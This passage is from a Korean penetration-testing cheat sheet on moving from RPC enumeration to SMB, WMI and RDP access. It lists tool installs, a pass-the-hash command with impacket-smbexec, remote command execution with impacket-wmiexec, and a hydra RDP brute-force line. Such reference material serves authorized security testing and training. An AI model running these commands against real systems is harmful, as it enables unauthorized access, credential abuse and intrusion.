 ### 🔧 RPC 도구 설치 문제

```bash
# 필요한 패키지 설치 확인
sudo apt update
sudo apt install rpcbind
sudo apt install samba-common-bin
sudo apt install enum4linux

# impacket 설치 확인
pip3 install impacket
sudo apt install python3-impacket

# rpcclient 경로 확인
which rpcclient
which rpcinfo
```

---

## 🔗 다른 서비스와 연계

### 🗂️ SMB와 연계 (445 포트)

```bash
# RPC로 수집한 사용자로 SMB 접근
smbclient -L //{IP} -U {DISCOVERED_USER}
smbmap -H {IP} -u {DISCOVERED_USER}

# RPC에서 발견한 공유로 접근
smbclient //{IP}/{DISCOVERED_SHARE} -U {DISCOVERED_USER}

# Pass-the-Hash 공격 연계
impacket-smbexec -hashes {HASH} {USERNAME}@{IP}
```

### 🌐 WMI와 연계 (RPC 기반)

```bash
# RPC 정보로 WMI 접근
impacket-wmiexec {USERNAME}:{PASSWORD}@{IP}

# WMI 명령 실행
impacket-wmiexec {USERNAME}:{PASSWORD}@{IP} "net user"
impacket-wmiexec {USERNAME}:{PASSWORD}@{IP} "net localgroup administrators"
```

### 🖥️ RDP와 연계 (3389 포트)

```bash
# RPC에서 수집한 사용자로 RDP 접근
rdesktop {IP} -u {DISCOVERED_USER}
xfreerdp /u:{DISCOVERED_USER} /p:{PASSWORD} /v:{IP}

# RDP 브루트포스 (RPC에서 수집한 사용자 목록 활용)
hydra -L discovered_users.txt -P passwords.txt rdp://{IP}
```
